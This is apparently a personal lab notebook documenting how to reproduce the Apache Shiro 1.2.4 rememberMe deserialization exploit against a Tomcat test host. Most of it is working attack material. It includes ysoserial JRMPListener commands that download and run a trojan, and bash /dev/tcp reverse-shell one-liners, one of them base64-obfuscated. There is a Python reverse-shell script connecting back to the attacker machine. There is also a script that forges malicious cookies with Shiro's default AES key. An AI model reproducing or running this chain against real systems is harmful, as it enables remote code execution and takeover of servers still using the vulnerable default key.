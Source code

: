 
# target
centos 192.168.207.3 
## install tomcat
	https://www.ionos.com/community/server-cloud-infrastructure/apache/install-and-use-apache-tomcat-on-centos-7/

## build and deploy	
	https://cloud.tencent.com/developer/article/1041471
	https://github.com/apache/shiro/releases/tag/shiro-root-1.2.4
	需要安装jdk1.6和maven支持1.6的版本，比如C:\Dev\apache-maven-3.0.4\，然后需要添加下面这个xml
	.m2/toolchains.xml
	<?xml version="1.0" encoding="UTF8"?>
	<toolchains>
	  <toolchain>
		<type>jdk</type>
		<provides>
		  <version>1.6</version>
		  <vendor>sun</vendor>
		</provides>
		<configuration>
		   <jdkHome>C:\Program Files\Java\jdk1.6.0_45</jdkHome>
		</configuration>
	  </toolchain>
	</toolchains>
	shiro-shiro-root-1.2.4\samples\web

	mvn eclipse:eclipse
	mvn clean install
	
	http://192.168.207.3:8080/
	deploy war
	got error 
	The absolute uri: http://java.sun.com/jsp/jstl/core cannot be resolved in either web.xml or the jar 
	change pom.xml
		这个是为了tomcat7下面能正常访问
		<dependency>
			<groupId>javax.servlet</groupId>
			<artifactId>jstl</artifactId>
			<version>1.2</version>
			<scope>runtime</scope>
		</dependency>
		这个是为了跟ysoserial的依赖保持版本一致，去掉之后应该收不到tcp连接
		<dependency>
			<groupId>commons-beanutils</groupId>
			<artifactId>commons-beanutils</artifactId>
			<version>1.9.2</version>
			<exclusions>
				<exclusion>
					<groupId>commons-logging</groupId>
					<artifactId>commons-logging</artifactId>
				</exclusion>
			</exclusions>
		</dependency>
		下面这个千万别加，加了之后ysoserial的JRMPListener直接收不到tcp连接！！！
		<!--
		<dependency>
			<groupId>org.apache.commons</groupId>
			<artifactId>commons-collections4</artifactId>
			<version>4.0</version>
		</dependency>
		-->
		下面这个有人提，但是貌似没用
        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>servlet-api</artifactId>
            <!--<scope>provided</scope>-->
        </dependency>
# exploit:
kali 192.168.207.4
## 开启监听，反弹shell监听
nc -lvp 10000

## 发送payload方法
利用burpsuite；
利用httpie； 
	http http://192.168.207.3:8080/samples-web-1.2.4/ Cookie:`cat /tmp/payload.cookie`
利用python脚本直接发送http请求携带cookie；

#method 1 利用CommonsCollections5
https://www.cnblogs.com/loong-hon/p/10619616.html
service apache2 start
cp getshell.py /var/www/html/

第一个payload下载木马：
python shiro.py 192.168.207.4:10001
开启监听，收到靶机连接时下载木马
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 10001 CommonsCollections5 'wget 192.168.207.4/getshell.py -O /tmp/shell.py'
发送payload
第二个payload，其实跟第一个一样都是一个JRMPClient端，只不过由于可能是shiro sample web的原因，估计同一个cookie值会被忽略，所以如果不行就再生成一个payload
同样是： python shiro.py 192.168.207.4:10001
然后开启监听，这次直接运行shell脚本
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 10001 CommonsCollections5 'python /tmp/shell.py'

#method 2 自定义ysoserial利用commons-collections-3.2.1
shiro1.2.4 默认的依赖是 WEB-INF.lib.commons-collections-3.2.1.jar
所以要自定义ysoserial的payload
https://meizjm3i.github.io/2019/07/07/Commons-Collections%E6%96%B0%E5%88%A9%E7%94%A8%E9%93%BE%E6%8C%96%E6%8E%98%E5%8F%8AWCTF%E5%87%BA%E9%A2%98%E6%80%9D%E8%B7%AF%E4%B8%B2%E8%AE%B2/

#method 3 利用CommonsCollections4 失败
## 构造payload
核心payload：反弹shell
bash -i >& /dev/tcp/192.168.207.4/10000 0>&1
http://www.jackson-t.ca/runtime-exec-payloads.html
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwNy40LzEwMDAwIDA+JjE=}|{base64,-d}|{bash,-i}
开启ysoserial
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 10001 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwNy40LzEwMDAwIDA+JjE=}|{base64,-d}|{bash,-i}'

python shiro.py 192.168.207.4:10001

# scripts

## getshell.py:
	import socket,subprocess,os;
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
	s.connect(("192.168.207.4",10000));
	os.dup2(s.fileno(),0);
	os.dup2(s.fileno(),1);
	os.dup2(s.fileno(),2);
	p=subprocess.call(["/bin/sh","-i"]);
## shiro.py:
# pip install pycrypto
	import sys
	import uuid
	import base64
	import subprocess
	from Crypto.Cipher import AES

	def encode_rememberme(command):
		popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
		BS = AES.block_size
		pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
		key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
		iv = uuid.uuid4().bytes
		encryptor = AES.new(key, AES.MODE_CBC, iv)
		file_body = pad(popen.stdout.read())
		base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
		return base64_ciphertext

	if __name__ == '__main__':
		payload = encode_rememberme(sys.argv[1])    
	print "rememberMe={0}".format(payload.decode())


失败怀疑：
1.靶子机器 jdk版本，tomcat版本
 1016  sudo yum install java-1.6.0-openjdk
 1017  sudo systemctl restart tomcat
 1018  alternatives --config java
 1019  sudo alternatives --config java
 1020  sudo systemctl restart tomcat
2.shiro web sample依赖跟 ysoserial的依赖版本不一致


https://paper.seebug.org/shiro-rememberme-1-2-4/
https://mp.weixin.qq.com/s/8F5tmbJsE0SshrYK-fRl-g
https://mp.weixin.qq.com/s/4nlIj2xz8HMkJpHKCl32aQ
yum install java-1.8.0-openjdk
update-alternatives --config java
JAVA_HOME 

https://blog.csdn.net/jiangbb8686/article/details/100158824
于是我修改版本号到1.9.2

https://xz.aliyun.com/t/2650
https://www.cnblogs.com/peterpan0707007/p/11342997.html
http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html

https://blog.spoock.com/2018/10/31/reverse-shell-on-limited-environments/

基于CommonsCollections4的Gadget分析
https://www.cnblogs.com/Welk1n/p/10511145.html

